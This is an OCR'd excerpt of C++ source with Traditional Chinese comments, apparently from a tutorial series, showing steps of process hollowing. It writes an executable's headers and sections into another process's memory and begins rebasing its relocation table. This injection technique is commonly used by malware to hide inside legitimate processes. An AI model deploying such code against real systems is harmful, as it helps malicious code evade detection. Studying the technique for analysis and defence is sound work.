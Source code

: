 ```cpp=
    {
        printf("VirtualAllocEx call failed\r\n");
        return;
    }


    // 5. 把 Header 寫入目標 Process
    // 在改 Optional Header 中的 ImageBase 成員之前，算出檔案的 Image Base 和目標 Process 的 Image Base 的距離
    DWORD dwDelta = (DWORD)pPEB->ImageBaseAddress - pSourceHeaders->OptionalHeader.ImageBase;
    pSourceHeaders->OptionalHeader.ImageBase = (DWORD)pPEB->ImageBaseAddress;

    // 把我們的檔案 Header 寫入目標 Process
    if (!WriteProcessMemory
    (
        pProcessInfo->hProcess, 				
        pPEB->ImageBaseAddress, 
        pBuffer, 
        pSourceHeaders->OptionalHeader.SizeOfHeaders, 
        0
    ))
    {
        printf("Error writing process memory\r\n");
        return;
    }

    /* 以上是薛丁格的 Process (上) 的內容 */
    /* 以下是薛丁格的 Process (下) 的內容 */

    // 6. 把各 Section 根據它們的 RVA 寫入目標 Process
    for (DWORD x = 0; x < pSourceImage->NumberOfSections; x++)
    {
        if (!pSourceImage->Sections[x].PointerToRawData)
            continue;

        // Section 在記憶體的實際位址 = Image Base + Section 的 RVA
        PVOID pSectionDestination = (PVOID)((DWORD)pPEB->ImageBaseAddress + pSourceImage->Sections[x].VirtualAddress);
        if (!WriteProcessMemory
        (
            pProcessInfo->hProcess,			
            pSectionDestination,			
            &pBuffer[pSourceImage->Sections[x].PointerToRawData],
            pSourceImage->Sections[x].SizeOfRawData,
            0
        ))
        {
            printf ("Error writing process memory\r\n");
            return;
        }
    }	

    // 7. Rebase Relocation Table，因為 Image Base 可能會不一樣
    if (dwDelta)
        for (DWORD x = 0; x < pSourceImage->NumberOfSections; x++)
        {
            // 確認 Section Name 是否為 .reloc
            char* pSectionName = ".reloc";		
            if (memcmp(pSourceImage->Sections[x].Name, pSectionName, strlen(pSectionName)))
                continue;

            DWORD dwRelocAddr = pSourceImage->Sections[x].PointerToRawData;
            DWORD dwOffset = 0;

```